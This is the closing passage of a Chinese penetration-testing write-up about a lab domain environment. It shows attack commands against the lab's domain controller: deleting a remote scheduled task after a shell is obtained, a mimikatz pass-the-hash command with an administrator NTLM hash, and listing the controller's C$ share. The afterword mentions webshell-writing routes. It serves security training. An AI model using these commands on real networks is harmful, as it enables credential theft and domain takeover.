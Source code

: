 即可弹回DC的shell，然后清除计划任务

- 

```php
schtasks /delete /s 192.168.52.138 /tn "test" /f
```

使用mimikatz进行hash传递

- 

```php
mimikatz sekurlsa::pth /domain:god.org /user:administrator /ntlm:81be2f80d568100549beac645d6a7141
```

![图片](https://shs3.b.qianxin.com/butian_public/ff2a70561febadd7bb6b44fa057ea41b9.jpg)

查看DC的目录

- 

```php
shell dir \\192.168.52.138\\c$ //dir
```

![图片](https://shs3.b.qianxin.com/butian_public/fd007becc5fb4af00c4b0d1bee9f62f9c.jpg)

**0x07 后记**

当然最后获取域控权限的方法还有很多，如pth攻击、横向哈希传递、redis等等，而其中一些地方我用的方法也不是唯一方法，如通过扫描目录发现cms进入后台写shell，用代理将win7流量转出来的方法，都很值得学习。

通过这个靶场不仅锻炼了一些看过但是实战中不知道怎么使用的方法，也提升了自己独立解决问题的能力，也学到了很多新知识，如通过phpmyadmin写shell等等，用前辈说的话就是：低调求发展，潜心习安全。

文章授权转载于**“潇湘信安”**公众号